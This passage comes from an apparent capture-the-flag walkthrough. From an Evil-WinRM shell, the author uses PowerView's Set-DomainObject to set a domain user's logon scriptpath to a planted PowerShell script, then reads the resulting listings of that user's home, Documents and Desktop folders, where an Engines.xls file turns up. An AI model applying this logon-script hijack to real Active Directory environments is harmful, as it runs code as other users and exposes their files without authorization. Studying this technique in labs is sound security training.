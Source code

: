 ### Home Dir Enum

Because I know I can’t connect back because of the firewall, I’ll drop scripts into the logon that write results where I can read them. For example:

```
*Evil-WinRM* PS C:\programdata> echo "ls \users\maria\ > \programdata\out" > cmd.ps1
*Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\cmd.ps1"}

```

About a second or so later there’s an `out`:

```
*Evil-WinRM* PS C:\programdata> type out

    Directory: C:\users\maria

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       10/22/2021   3:54 AM                3D Objects
d-r---       10/22/2021   3:54 AM                Contacts
d-r---       10/25/2021   3:47 AM                Desktop
d-r---       10/25/2021  10:07 PM                Documents
d-r---       10/22/2021   3:54 AM                Downloads
d-r---       10/22/2021   3:54 AM                Favorites
d-r---       10/22/2021   3:54 AM                Links
d-r---       10/22/2021   3:54 AM                Music
d-r---       10/22/2021   3:54 AM                Pictures
d-r---       10/22/2021   3:54 AM                Saved Games
d-r---       10/22/2021   3:54 AM                Searches
d-r---       10/22/2021   3:54 AM                Videos

```

It’s interesting that the `Documents` and `Desktop` folders have different timestamp than the rest. I’ll list those directories:

```
*Evil-WinRM* PS C:\programdata> echo "ls \users\maria\documents > \programdata\out; ls \users\maria\desktop\ > \programdata\out2" > cmd.ps1
*Evil-WinRM* PS C:\programdata> ls out*

    Directory: C:\programdata

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2022   3:42 AM              0 out
-a----        2/28/2022   3:42 AM            830 out2
*Evil-WinRM* PS C:\programdata> type out2

    Directory: C:\users\maria\desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/26/2021   8:13 AM           6144 Engines.xls

```
